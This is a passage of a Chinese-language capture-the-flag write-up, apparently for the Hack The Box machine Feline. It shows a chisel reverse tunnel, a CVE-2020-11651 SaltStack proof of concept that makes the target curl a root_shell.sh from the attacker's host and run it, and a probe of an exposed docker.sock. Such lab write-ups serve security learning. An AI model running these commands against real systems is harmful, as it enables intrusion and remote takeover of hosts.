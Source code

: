 换目录到/dev/shm

`wget http://10.10.14.24:8080/chisel`

建立连接
kali 建立服务
```
./chisel server -p 4444 --reverse
```
靶机连接
```
chmod +x chisel
./chisel client 10.10.14.24:4444 R:4506:127.0.0.1:4506
```
![]({{ site.url }}/assets/Feline_205.assets/20201120093312248_924555202.png)

在kali端执行poc

让靶机下载我们的root

`python3 CVE-2020-11651-poc.py --master localhost --exec "curl http://10.10.14.24:8080/root_shell.sh -o /dev/shm/root_shell.sh; chmod +x /dev/shm/root_shell.sh"`

![]({{ site.url }}/assets/Feline_205.assets/20201120095017973_1955093969.png)

`python3 CVE-2020-11651-poc.py --master localhost --exec "bash /dev/shm/root_shell.sh"`

![]({{ site.url }}/assets/Feline_205.assets/20201120095038483_617054236.png)

在监听处得到shell

![]({{ site.url }}/assets/Feline_205.assets/20201120095116169_632013089.png)

本以为root了，实际上并没有

![]({{ site.url }}/assets/Feline_205.assets/20201120095224858_789868761.png)

![]({{ site.url }}/assets/Feline_205.assets/20201120095250333_1727844020.png)

刚注意到主机名，坐在docker中

经过了很久的枚举后发现在bash记录中

![]({{ site.url }}/assets/Feline_205.assets/20201120095441395_1600569406.png)

`curl -s --unix-socket /var/run/docker.sock http://localhost/images/json`

![]({{ site.url }}/assets/Feline_205.assets/20201120095613570_1389844320.png)

Exposing /var/run/docker.sock could lead to full environment takeover

![]({{ site.url }}/assets/Feline_205.assets/20201120095654830_933857821.png)

`https://dejandayoff.com/the-danger-of-exposing-docker.sock/`

![]({{ site.url }}/assets/Feline_205.assets/20201120095823792_1537905271.png)
